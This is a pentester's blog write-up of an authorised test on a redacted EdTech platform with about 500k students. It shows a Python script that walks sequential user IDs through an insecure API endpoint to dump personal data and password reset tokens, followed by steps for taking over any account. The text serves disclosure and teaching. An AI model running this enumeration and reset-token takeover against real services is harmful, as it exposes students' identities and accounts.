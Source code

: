 ```yaml
---
layout: post
published: true
hidden: false
title: Safeguarding 500k Academic Futures - Detailed Writeup
date: 2024-06-11 00:00:00 +0000
category: blog
---
```

![EdSec: Safeguarding 500k Academic Futures](/assets/images/EdSec-Safeguarding-500k-Academic-Futures.png)

This is my first blog post, and because of that it marks a new beginning for me. I have been around in cybersecurity for probably half of my age as I stepped into it when I was maybe 10 but what I clearly remember is that my first milestone or achievement that I had was when I was 12 - That is when I got into Microsoft's Hall of Fame. Since that time, I have been actively learning and even working with few companies and even startups which I never wrote about or maybe never even shared on my LinkedIn too and I really feel sorry for that. So here's my attempt to make up for it. 

I had to perform a pentest of an EdTech platform consisting of a huge userbase, around 500k+ students enrolled on the platform at the time of the pentest. I was reached out by their CTO initiating a collaboration for the safety of their users and the company's digital assets. 

The following writeup is from one of the interesting findings that were a part of the final report and was patched keeping their CTO in loop. He was genuinely very concerned and involved with every step within the process, and one of the highly talented individuals I've come across, sharing with me how he left his dream job and stepped into entrepreneurship. 

Starting with the writeup now, I was more interested into understanding the application's business workflow first and dig into each of the components that I discover. Enumeration definitely has to be the priority, I did decide to spend a decent amount of time on it. 

Starting with the enumeration, I started discovering numerous API endpoints and different calls going around. Silently logging to analyze later. 

The first thing to notice was that, each of the API call was accompanied by an **_Authorization_** header that consisted of a token to validate the API calls. Looks pretty good, that's how it should be right. My first thought was to remove the **_Authorization_** header and see if the API responds and it turns out that the API discards the request. Pretty good here. 

While the API endpoints were being discovered, I took some time to browse through the application and noticed an option to create a "**_Guest Account_**", can't ignore such a great lead. Immediately created a guest account, grabbed its Authorization token but wait a second!? What if I log-out. Ideally, logging out should make the token unusable, more of a garbage after the sessions ends. In this case, the token was still usable and valid. Got the missing piece right? Now we have a token that we can use countless times for our API calls. 

Till now, we have a list of API endpoints to test and a valid token that can be used for authorized API requests.

Going through the list of discovered endpoints, I came across an interesting one: "**_/api/v1/users/getUserData?id=[any User ID]_**. Even more interesting was the JSON object that I received in the response, a little snippet for you:

```json
{
	"id": some number,
    "cnic": "[redacted]",
    "provider": "email",
    "uid": "[redacted]@nbs.nust.edu.pk",
    "uid_phone": [redacted],
    "reset_password_token": null,
    "reset_password_sent_at": null,
    "remember_created_at": null,
    "sign_in_count": 9,
    "current_sign_in_at": null,
    "last_sign_in_at": null,
    "current_sign_in_ip": null,
    "last_sign_in_ip": null,
    "confirmation_token": "ijsnfwtn4fd",
}
```

There's just so much more juicy information right there right? Indeed. The very next thing I tried and it turned out right was that the "**_id_**" for each user or student was in incremental order, a simple block of code and information extraction is automated. I quickly wrote a little Python code to automate this, developing a proof of concept for the team. 

```python
import requests
import json
file = open("retrieved-data.json", "w")
for x in range(223000, 223999):
    print('[+] Retrieving Data for UserID: %s' %(str(x)))
    url = "https://[redacted]/api/v1/users/getUserData?id=%s" % (str(x))
    headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:91.0) Gecko/20100101 Firefox/91.0",
        "Accept": "application/json, text/plain, */*",
        "Accept-Language": "en-US,en;q=0.5",
        "Accept-Encoding": "gzip, deflate",
        "X-Requested-With": "XMLHttpRequest",
        "Authorization": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOjI1MzA2NiwiaWF0IjoxNjI5MTIxOTUwfQ.Q8k_QCsJsb0v8qsh4AYk4ZxV5siLNTUOty9ilQYWhg4",
        "Uid": "253066",
        "Sec-Fetch-Dest": "empty",
        "Sec-Fetch-Mode": "cors",
        "Sec-Fetch-Site": "same-origin",
        "Te": "trailers"
    }
    req = requests.get(url, headers=headers)
    if len(req.content) != 0:
        file.write(json.dumps(json.loads(req.content), indent=4))
        file.write('\n')
file.close()
```

But there's more to it? The juicy information returned by the API really had me wondering what attack scenario could do the worst for them.

You might have noticed it earlier, "**_reset_password_token_**" really had me down to spend more time on it. 

At this point, we do have enough findings to reset any user's password. The following steps help us achieve that: 
1. Navigate to "Forgot Password" option, enter target's email address.
2. A password reset token is generated, along with a link that is emailed to the target. 
3. As per our findings, we can easily fetch the password reset token that was generated for the target.
4. Navigate to the following link to finally reset the password for the target:
> https://[redacted]/resetPassword/[target email]/[password reset token]

That's it for this writeup, the amount of findings I have had for EdTech platforms I believe it's time we start talking about "**_EdSec_**"(maybe?). 

fin.
